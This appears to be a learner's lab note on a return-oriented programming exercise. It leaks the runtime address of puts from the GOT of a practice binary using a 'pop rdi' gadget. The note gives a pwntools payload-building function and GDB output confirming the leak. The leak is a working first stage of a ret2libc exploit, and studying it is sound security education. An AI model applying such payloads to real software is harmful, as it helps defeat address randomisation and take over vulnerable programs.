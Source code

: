 # Leaking addr using puts?
###### `puts` in GOT
![[Pasted image 20240311152537.png]]

So step 1 is using puts to leak the real address of `puts`
Put `00601018` on top of the stack

`puts` takes a single argument, which is a pointer to a string
I think if I give it the address `00601018`, it will tell us the real (loaded) address of `puts`

So first I need something that will move that into RDI, luckily, I have my gadget already:
```
0x00000000004006b3 : pop rdi ; ret
```
So our stack will have to be:
```
  retAddr(main) --> 0x4006b3    // Addr(A) --> pop rdi ; ret
		 rsp(A) --> 00601018    // Addr(puts)
     retAddr(A) --> 00601018    // Addr(puts)
```


I was getting a segfault since it tried to jump to the next thing in the stack after the return so I got lazy and had it run the same thing a second time to avoid that...

```python
def leakPuts():
	context.binary = binary = ELF("./rop", checksec=False)
	# 0x00000000004006b3 : pop rdi ; ret
	popRDI = p64(0x004006b3)
	
	pltPuts = p64(binary.plt.puts)		# Address to call
	gotPuts = p64(binary.got.puts)		# Address to leak

	#pad = 
	#p = process()

	pld = cyclic(40)
	pld += popRDI + gotPuts + pltPuts
	pld += popRDI + gotPuts + pltPuts
	return pld
```
###### GDB
```
──(kali㉿kali)-[~/Desktop/6-Week/ROP-Pop-Pop]
└─$ python3 RPP_Pwn_2.py
[+] Starting local process '/bin/bash': pid 1009053
[#0] Id 1, Name: "rop", stopped 0x40064a in main (), reason: BREAKPOINT
 trace ────
[#0] 0x40064a → main()

gef➤  $ break puts
Breakpoint 2 at 0x7ffff7e40b00: file ./libio/ioputs.c, line 35.
gef➤  $ c
Continuing.

Id 1, Name: "rop", stopped 0x7ffff7e40b00 in __GI__IO_puts (), reason: BREAKPOINT
trace ────
[#0] 0x7ffff7e40b00 → __GI__IO_puts(str=0x601018 <puts@got[plt]> "")
[#1] 0x4006b3 → __libc_csu_init()
[#2] 0x4004c0 →  <puts@plt+0> jmp QWORD PTR [rip+0x200b52]        # 0x601018 <puts@got.plt>
[#3] 0x7fffffffdeb8 → rex.W loop 0x7fffffffdeba

gef➤  $ c
Continuing.
```